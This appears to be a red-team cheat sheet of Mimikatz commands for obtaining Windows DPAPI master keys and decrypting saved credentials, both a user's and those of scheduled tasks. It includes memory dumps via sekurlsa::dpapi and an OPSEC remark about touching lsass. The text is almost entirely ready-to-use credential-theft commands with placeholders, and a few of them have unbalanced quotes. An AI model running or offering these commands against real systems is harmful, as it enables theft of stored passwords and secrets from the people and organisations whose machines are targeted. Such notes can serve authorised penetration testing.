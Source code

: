 #### Get master encryption key
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /rpc"
```

#### Get master encryption keys from memory
- If not recently used it won't be in memory
```
Invoke-Mimikatz -Command '"sekurlsa::dpapi"'
```

#### Get MasterKey with User's Password
```
Invoke-Mimikatz -Command '"dpapi::masterkey /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID>\<ID> /sid:<USER SID> /password:<PASSWORD> /protected
```

#### Decrypt credential
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials\<ID> /masterkey:<MASTERKEY>"'
```

### Scheduled tasks
#### Dump with Mimikatz
- OPSEC: Touches lsass!
```
Invoke-Mimikatz -Command '"dpapi::cred /patch"'
```

#### Check for blobs
```
ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
```

#### Find master encryption key ID
- The ```pbData``` field contains the encrypted data and the ```guidMasterKey``` contains the GUID of the key needed to decrypt it. 
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<ID>"'
```

#### Dump cached keys
```
mimikatz !sekurlsa::dpapi
```

#### Decrypt it
```
Invoke-Mimikatz -Command '"mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\<ID> /masterkey:<MASTERKEY>
```
